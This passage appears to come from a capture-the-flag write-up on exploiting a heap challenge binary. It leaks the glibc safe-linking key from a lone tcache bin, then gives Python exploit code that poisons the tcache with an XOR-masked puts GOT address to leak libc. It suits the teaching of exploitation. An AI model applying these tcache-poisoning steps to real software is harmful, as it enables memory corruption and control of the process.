 But what we are doing here?
1. ==**We allocate 4 bots, two of them with a string of 32 bytes, we will understand why after**==
2. ==**We deallocate the first bot**==
3. ==**We allocate a bot another time but passing**== `\xff`
4. ==**We print our list of bots using the attack function, and we are storing the contend printed as** ==`identifier` ==**string of the bot with**== `id` ==**0**==

#### But why this leaks the L shifted by 12 bits secret?
This works because in this specific case we are deallocating a unique botname, so the `tcache` contains a unique `bin`.

This means that the pointer to the next bin doesn't contain an addres, because there are no other bins. So it contains just the value `L shifted by 12 bits` secret.

Now we know from the code that: 
- when we put `\xff` **==the while breaks and so nothing is read as content to put in the bot==** `identifier`.

So when we allocate a bot with `\xff` we are allocating a bot taking as content the content of the `tcache bin` and so the `L shifted by 12 bits` secret only.

In fact, when we print it we will obtain this secret.

Let's see what happens if we run the current script:
```shell
python3 exploit.py
```

The result is:
- ![[Pasted image 20240529152145.png]]

==**So in this run the secret L shifted by 12 is:**== `\xad\x06\x00\x00\x00\x00\x00\x00`

We can notice that it changes on every execution:
- ![[Pasted image 20240529152247.png]]
- ![[Pasted image 20240529152258.png]]
- etc



So at this point we need to understand which is the real `system`  function address, to do it we need to leak the `libc` base address...

We can do it always using the `Tcache poisoning attack`.

### System address leaking

```python
#this one from ghidra
puts_got = 0x4041b0

# to bypass the safe linking
xored_puts_address = puts_got ^ leaked_L_shifted

# deallocate bot id 0
deallocate_bot(0)

# deallocate bot id 1
deallocate_bot(1)

# overwrite xored puts address in the deallocated bot id 1
change_deallocated_bot(1, xored_puts_address, b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff')

# allocate bot id 0 we need it because malloc uses this implementation, the first malloc will not return the address of leaked puts
allocate_bot(0, 16, b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff')

#allocate bot id 1 to leak the puts real address
allocate_bot(1, 16, b'\xff')
```